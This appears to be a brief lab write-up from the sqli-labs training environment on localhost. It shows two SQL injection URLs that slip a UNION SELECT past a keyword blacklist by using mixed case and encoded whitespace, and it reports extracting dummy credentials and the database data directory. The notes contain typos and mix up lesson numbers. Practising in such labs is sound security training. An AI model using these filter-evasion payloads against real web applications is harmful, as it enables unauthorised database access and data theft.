


Trick with UNION & SELECT
On lesoon 28 there's only a blind injection that will work.
URL: http://localhost/sqlilabs/Less-26/?id=3%27)%a0%20UnIon%a0SeLect%020%0a1,2,3%0aor%20or%0a(%271

Result: We got the username (Dummy) and password (p@ssword). It works becuuse the develover has tried to combine union and select together and he's trying to evalute whether or not there's union SPACE select” in the query. As we've replace SPACE with “%a” therefore the query bypasses the blacklist filter.
Now we invalidate the first part and we can get any data, for instance, the following.
URL: http://localhost/sqlilabs/Less-26/?id=%27)%a0%20UnIon%a0SeLect%020%0a1,@@datadir,3%0aor%20or%0a(%271

Result: We got the datadir “/var/lib/mysql”.